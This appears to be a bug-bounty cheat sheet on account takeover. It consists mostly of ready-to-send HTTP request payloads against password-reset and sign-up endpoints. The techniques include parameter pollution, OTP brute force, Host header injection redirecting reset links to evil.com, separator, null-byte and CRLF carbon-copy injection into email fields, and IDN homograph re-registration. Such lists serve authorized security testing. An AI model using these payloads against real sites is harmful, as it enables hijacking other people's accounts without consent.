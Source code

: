 ## Account Takeover

1. Parameter pollution in reset password
```
POST /reset
[...]
email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset
[...]
email=victim@mail.com,hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%20hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com|hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset
[...]
email=victim
```

6. No TLD in value of the parameter
```
POST /reset
[...]
email=victim@mail
```

7. Using carbon copy
```
POST /reset
[...]
email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. Try re-sign up using same email
```
POST /newaccount
[...]
email=victim@mail.com&password=1234
```
After sign up using victim email, try signup again but using different password
```
POST /newaccount
[...]
email=victim@mail.com&password=hacked
```

9. If there is JSON data in body requests, add comma
```
POST /newaccount
[...]
{“email”:“victim@mail.com”,”hacker@mail.com”,“token”:”xxxxxxxxxx”}
```

10. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
> [For Example](https://medium.com/bugbountywriteup/how-i-discovered-an-interesting-account-takeover-flaw-18a7fb1e5359)

11. Account takeover after login (Work if inside the website there is "Connect to facebook/twitter/etc")
  - First, login to the website using victim email
  - Find "Connect to facebook/twitter/googleplus" or something like that ![Photo](https://miro.medium.com/max/875/0*LOrCFhQF9-KPALPg.png)]
  - Connect to attacker twitter
  - After logout you can login using the twitter

12. ## Account Takeover Scenario :

## Test Sign-Up Panel

### Try to re- register yourself with same email id as you use before, sometimes unexpected things can happend

1. While doing sign-up with same email id, try to add space after email id e.g. ```victim@gmail.com{space_here}     ``` without angle brackets

2. ```victim@gmail.com%00``` Here i am using Null byte, but i found that many applications accept Null byte in email & they treat it different email form this one ``` victim@gmail.com```, but sometimes they convert it to ```victim@gmail.com```, so trying isn't bad, hope for the best.

3. Carefully see all the reqests in your burp suite history (But Why ),for that, this medium blog is worth to read: 

https://medium.com/@zseano/how-re-signing-up-for-an-account-lead-to-account-takeover-3a63a628fd9f

4. IDN homograph attack: if your registered email id is victim@gmail.com then try to re-register yourself with vicitm@gmail.cÖm, here i replace O with turkish Ö, if a website is vunrable to homograph attack then you can access victim account, you can try same trick for username also ( many website ask for unique username where you can't use any already taken username ),i highly recommended you to read this awesome article  about this kind of vunerabilty :

https://medium.com/bugbountywriteup/how-i-was-able-to-change-victims-password-using-idn-homograph-attack-587111843aff

5. After registering through website try to re-register same email with their android/ios apps, magic can happned anywhere

6. Sometimes target use region based sign-up in region based android/ios apps, register yourself with asia based app after downloading it through app store (android/ios), then by using VPN change the region to US and download their US region based app, again register yourself with same mail id, you will access the same account with your new password.
